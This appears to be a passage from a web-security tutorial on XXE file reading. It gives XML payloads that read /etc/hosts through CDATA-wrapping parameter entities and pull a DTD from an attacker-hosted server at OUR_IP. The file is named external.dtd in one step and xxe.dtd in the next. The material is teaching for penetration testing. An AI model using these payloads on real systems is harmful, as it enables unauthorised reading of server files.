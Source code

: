 In the event that basic XXE won't work or when we are dealing with other web development frameworks, we can utilize the following method to extract any kind of data (including binary data) for any web application backend.

To output data that does not conform to the XML format, we can wrap the content of the external file reference with a `CDATA` tag (e.g. `<![CDATA[ FILE_CONTENT ]]>`). This way, the XML parser would consider this part raw data, which may contain any type of data, including any special characters.

To start, we must first define a `begin` internal entity with `<![CDATA[`, an `end` internal entity with `]]>`, and then place our external entity file in between, and it should be considered as a `CDATA` element, as follows:
```xml
<?xml version="1.0" encoding="UTF-8"?>
<!DOCTYPE email [
  <!ENTITY begin "<![CDATA[">
  <!ENTITY file SYSTEM "file:///etc/hosts">
  <!ENTITY end "]]>">
  <!ENTITY joined "&begin;&file;&end;">
]>
```
After that, if we reference the `&joined;` entity, it should contain our escaped data. However, there will be times that this will not work, since XML prevents joining internal and external entities, so we will have to find a better way to do so.

To bypass this, we can utilize `XML Parameter Entities`, a special type of entity that starts with a `%` character and can only be used within the DTD. What's unique about parameter entities is that if we reference them from an external source (e.g., our own server), then all of them would be considered as external and can be joined. First create a DTD file named `external.dtd` using the following value:
```dtd
<!ENTITY joined "%begin;%file;%end;">
```
Then start a local server to host the file using Python.
```bash
python3 -m http.server 8080
```

Now we can reference our external entity and print the `&joined` entity we defined above.
```xml
<?xml version="1.0" encoding="UTF-8"?>
<!DOCTYPE email [
  <!ENTITY % begin "<![CDATA[">
  <!ENTITY % file SYSTEM "file:///etc/hosts">
  <!ENTITY % end "]]>">
  <!ENTITY % xxe SYSTEM "http://OUR_IP:8080/xxe.dtd">
  %xxe;
]>
...
<email>&joined;</email>
```